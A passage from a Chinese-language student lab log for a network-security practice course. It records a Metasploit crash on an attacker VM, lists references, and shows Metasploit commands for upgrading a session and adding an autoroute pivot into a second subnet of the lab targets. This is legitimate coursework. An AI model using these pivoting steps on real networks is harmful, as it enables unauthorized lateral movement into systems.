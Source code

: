 ### 问题

- 原先的 attacker 虚拟机运行 msfconsole 命令失败, 报错信息如下 :

> Metasploit tip: You can pivot connections over sessions started with the 
ssh_login modules
/usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/pg-1.5.6/lib/pg/connection.rb:695: [BUG] Segmentation fault at 0x0000561200000000
ruby 3.1.2p20 (2022-04-12 revision 4491bb740a) [x86_64-linux-gnu]

-  与此同时, 我的 2024.1 版本 kali@victim 虚拟机却能够正常打开 metasploit-framework ( 不用安装, kali 直接自带了 ) . 而两台虚拟机的 Ruby 版本均为 v3.1.2p20, 终端环境也相同, 在重启虚拟机无效后, 我果断选择跳过此 BUG, 弃用此 attacker 虚拟机, 导入一台新虚拟机作为攻击机, 这样反而更节省时间与精力.


### 参考

- [网络安全综合实验视频教程](https://www.bilibili.com/video/BV1p3411x7da?p=26&vd_source=5805c1231cd951b8c81ad0a508b22601)

- [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md#%E7%BA%A2%E9%98%9F-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%AE%9E%E6%88%98)

- [longxuan-white-sugar 小组的实验报告](https://git.cuc.edu.cn/ccs/2024-summer-cp/longxuan-white-sugar/-/blob/main/README.md?ref_type=heads)

- [zzz group 小组的实验报告](https://git.cuc.edu.cn/ccs/2024-summer-cp/zzz-group/-/blob/main/README.md?ref_type=heads)

---





## 2024-07-15 : 攻克靶标 5

### 内容

```shell
# 查看三台靶机的 IP 配置，并发现 session 5 的主机有三个网卡，说明该主机同时又在另一个网段底下，所以 session 5 内连接的这台主机可以考虑作为跳板主机，即 192.175.84.5
sessions -c "ifconfig" -i 3,4,5

#  session 5 升级，并生成  session 6 
sessions -u 5

# 进入 session 6 ( 即进入跳板主机内，该跳板主机另一张网卡的 IP 是 192.176.85.2 )
sessions -i 6

# 将新发现的子网加入 Pivot Route
run autoroute -s 192.176.85.0/24

# 检查新发现的子网是否加入成功，留意一下输出结果的子网掩码
run autoroute -p

# 按快捷键 CTRL-Z , Y 置于后台
```
